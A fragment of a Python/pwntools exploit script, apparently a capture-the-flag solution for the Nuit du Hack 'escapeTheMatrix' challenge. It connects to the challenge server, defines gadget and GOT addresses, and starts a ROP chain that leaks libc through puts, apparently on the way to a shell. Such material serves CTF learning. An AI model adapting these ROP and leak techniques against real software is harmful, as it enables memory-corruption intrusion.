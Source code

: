 ```python
# continue
continue
"""

vpenv = {"LD_PRELOAD": os.path.join(os.getcwd(), "libc.so.6")}


def d2h(f):
    return hex(u64(struct.pack("d", f)))


def d2i(f):
    return (u64(struct.pack("d", f)))


def i2d(i):
    return (struct.unpack("d", p64(i))[0])


def new_con():
    # with context.local(log_level='warning'):
    # rem = process("ltrace -C -f -i ./escapeTheMatrix 2>ltrace.log", shell=True)
    # rem = process("./escapeTheMatrix")  # , env=vpenv)
    # gdb.attach(rem, gdbscript)
    rem = remote("escapethematrix.quals.nuitduhack.com", 50505)
    return rem


velf = ELF("./escapeTheMatrix")
# libc = ELF("./libc.so.6")
libc = ELF("/usr/lib/libc-2.25.so")
context.arch = velf.arch

N = 16
retaddr_A_idx = 229

pollfailedstr = 0x00401c63

main_addr = 0x400fa6
fini_array = 0x00602de0
read_int_addr = 0x400ed0
read_data_addr = 0x400d75

poprdiret = 0x00401c33
poprsir15 = 0x00401c31

# shaddr = next(libc.search("/bin/sh\x00"))
# shaddr = 0x0060314f
shaddr = velf.got['exit'] + 8

# chain = ROP(velf)
# chain.raw(velf.symbols['puts'])
# chain.raw(velf.symbols['exit'])
# chain.puts(velf.symbols['exit'])
# chain.read(0, velf.symbols['exit'])
# chain.exit(42)

chain0 = ROP(velf)
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
# all the tries to get it working with a single rop chain...
# chain0.raw(poprdiret)
```